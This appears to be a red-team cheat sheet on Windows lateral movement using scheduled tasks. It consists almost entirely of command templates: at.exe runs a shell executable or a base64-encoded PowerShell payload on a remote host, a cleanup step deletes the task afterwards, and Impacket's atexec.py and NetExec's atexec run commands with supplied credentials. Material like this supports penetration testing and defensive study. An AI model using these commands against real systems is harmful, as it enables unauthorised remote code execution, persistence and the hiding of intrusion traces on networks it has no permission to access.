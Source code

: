 # At

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Living off the Land

### 1.1 - Syntax

```
C:\> at.exe <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

### 1.2 - Usage

Retrieve local time in order to create a schedule task.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command [-ComputerName <IP>] -ScriptBlock { Get-Date }
```

Create a schedule task.

```
C:\> at.exe [\\<IP>] <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at.exe [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

Cleanup the schedule by querying the current computer and then delete the identifier number.

```
C:\> at.exe [\\<IP>]

C:\> at.exe [\\<IP>] <id> /delete /yes
```

## 02 - Impacket

```
$ atexec.py <username>:<password>@<IP>
```

## 03 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --no-output --exec-method atexec -x "<command>"

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --no-output --exec-method atexec -X "<cmdlet>"
```

---
## References

- [Impacket Remote Execution Tools - atexec.py](https://u0041.co/blog/post/1)